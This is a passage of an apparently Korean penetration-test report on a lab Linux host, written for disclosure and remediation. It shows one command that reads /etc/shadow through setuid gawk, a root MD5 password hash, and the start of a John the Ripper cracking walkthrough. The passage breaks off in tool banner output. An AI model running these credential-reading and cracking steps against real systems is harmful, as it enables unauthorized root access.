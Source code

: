 ![alt text](/image/image-10.png)

```sh
LFILE=/etc/shadow
awk '//' "$LFILE"

root:$1$BcBHqupt$IsJVqcoWOKszdTQODEn0H1:19493:0:99999:7:::
```

#### 대응 방안
 - gawk의 Set UID 비트를 설정 해제 한다.
```sh
chmod u-s /usr/bin/gawk
```

#### 레퍼런스

### 5. root 패스워드 취약한 해시함수(md5) 사용
#### 취약점 개요

|정보|설명|
|----|----|
|이름|root 패스워드 취약한 해시함수(md5) 사용|
|중요도|상|

#### 취약점 설명
root 계정의 패스워드 해시함수를 취약한 해시함수인 md5를 사용하여 패스워드 크래킹을 할 수 있다.

#### 개념 증명
`hash-identifier`를 사용하여 root 패스워드가 md5형식의 패스워드라는 것을 알아냈다. 이후, root의 패스워드를 root_pass라는 파일을 생성하여 저장한 뒤, `johntheripper`를 사용하여 패스워드 크래킹 시도를 하였고 성공했다.
```sh
┌──(kali㉿kali)-[~/observer]
└─$ hash-identifier
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------
```
